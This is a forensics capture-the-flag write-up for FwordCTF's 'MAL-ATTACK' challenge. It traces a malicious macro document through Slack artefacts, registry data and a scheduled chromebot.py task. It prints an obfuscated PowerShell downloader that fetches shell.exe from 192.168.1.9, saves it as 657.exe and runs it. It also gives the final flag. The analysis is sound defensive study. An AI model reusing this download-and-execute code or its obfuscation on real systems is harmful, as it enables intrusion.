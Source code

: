 # MAL-ATTACK

## TL;DR
- Reading slack conversation

- dump the registries and get the username and file name

- analyse the macro to get the AttackerIP

- checking the task scheduler to find out that it's running chromebot.py which takes chrome env variable which has been changed with the macro.

## Solution

Starting by exploring the files in order to see how he communicated with the 'group of security group', in **Recent Documents in Autopsy** we see that there is slack there, so dumping slack messages.

PATH: **%AppData%\Roaming\Slack\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00\5**

example of Slack Parser: https://github.com/0xMohammed/Slack-Parser [ Again credit to [0xMohamedHassan](https://twitter.com/0xMohamedHassan)
]

![](https://i.imgur.com/In9OMRF.jpg)


so there is 3 users [cakix36502,Semah BenAli,x_xWhiteuxx_x] , one admin but since SemahBA created the group so he is **cakix36502**, the FileSenderUsername must be of the other two. 

**FileSenderUsername: Semah BenAli or x_xWhiteuxx_x**

Going to **%AppData%\Roaming\Slack\Storage\root-state.json** 

we get : **downloadPath":"C:\\Users\\FwordCTF\\Downloads\\securityupdate.doc.zip** -> ReceivedFileOriginalPath: **Downloads**

Now Checking the suspicious file it was password protected, going back to the messages from Slack, we find the password which is **fwordteam**

there is doc file, while opening asks for Enable editing, so macro one?

### Macro Analysis

I opened in a VM and started [CMD WATCHER](https://www.kahusecurity.com/posts/cmd_watcher_and_maldocs.html) and Enabled the editing and received this: 

![](https://i.imgur.com/JWeM0xM.jpg)

decoding it and we get:

```
$Managerrmo='Venezuelahwf';
$capacitoripk = '657';
$depositkjo='Internaljiw';
$Reverseengineeredifq=$env:userprofile+'\'+$capacitoripk+'.exe';
$Ovalnfc='Handcrafted_Plastic_Pantsrod';
$applicationpmi=&('ne'+'w-ob'+'ject') NEt.WEBCLIenT;
$Practical_Wooden_Gloveszih='httasdp://asd192asd.asd168asd.1asd.9asd/shasdellasd.easdxe'."Replace"("asd","");
$violetcuz='hackingtho';
foreach($Arizonavsf in $Practical_Wooden_Gloveszih){try{$applicationpmi."DO`Wnl`oadfIle"($Arizonavsf, $Reverseengineeredifq);
$Yemennoo='Borderswbi';
[System.Environment]::SetEnvironmentVariable('chrome.exe',$env:userprofile+'\'+$capacitoripk+'.exe')If ((&('Get-'+'It'+'em') $Reverseengineeredifq)."LEn`GTH" -ge 21057) {[Diagnostics.Process]::"S`TaRT"($Reverseengineeredifq);
$Bolivar_Fuertenor='SCSImlh';
break;
$Regionalbpb='Auto_Loan_Accounthzi'}}catch{}}$Liaisonqvc='bestofbreedqit
```

Looking at the code: 

- ``httasdp://asd192asdasd168asd1asd9asd/shasdellasdeasdxe'"Replace"("asd","");`` which is: ``http://192.168.1.9/shell.exe`` so the IP is **192.168.1.9** and The file will be downloaded under %userprofile%\657.exe

- **IPSourceOfTheDownloadedFile: 192.168.1.9**

- **NewMaliciousFile is 657.exe**

- Also the script is setting env variable chrome.exe value to 657.exe

Now The Last Part is left **WhatTriggeredTheMaliciousFile**

Okay going back to **Recent Documents** there is **Checking The Binary.lnk** which is under C:\Windows\System32\Tasks\Checking the Binary

Okay so this is from Task Scheduler.

Checking it -> C:\Windows\System32\Tasks\Checking the Binary

![](https://i.imgur.com/NgTmSj2.jpg)

there is:

```
<Exec>
      <Command>C:\Users\FwordCTF\AppData\Local\Microsoft\WindowsApps\python.exe</Command>
      <Arguments>chromebot.py</Arguments>
      <WorkingDirectory>C:\Program Files\Google\Chrome\Application\</WorkingDirectory>
</Exec>
 ```

Executing python script chromebot.py which is under **C:\Program Files\Google\Chrome\Application\***

Script content:

```python
import os
import pyautogui as pe
import time
chrome_path = os.getenv("chrome.exe")
os.startfile(chrome_path)
time.sleep(1)
# exeucting the binary
for i in range(2):
	pe.click(707,275)
time.sleep(5)
pe.hotkey('alt','f4')
print ("Okay so it's working fine")
```

So it's getting the value of **chrome.exe** which has been set before to 657.exe, going to the path and made it a startfile path, and double clicking the binary? 

So that's **WhatTriggeredTheNewMaliciousFile**

Flag Format : FwordCTF{FileSenderUsername-IPSourceOfTheDownloadedFile-ReceivedFileOriginalPath-NewMaliciousFile-WhatTriggeredTheNewMaliciousFile}

Putting all the pieces together:

Flag is: **FwordCTF{x_xWhiteuxx_x-192.168.1.9-Downloads-657.exe-chromebot.py}** 
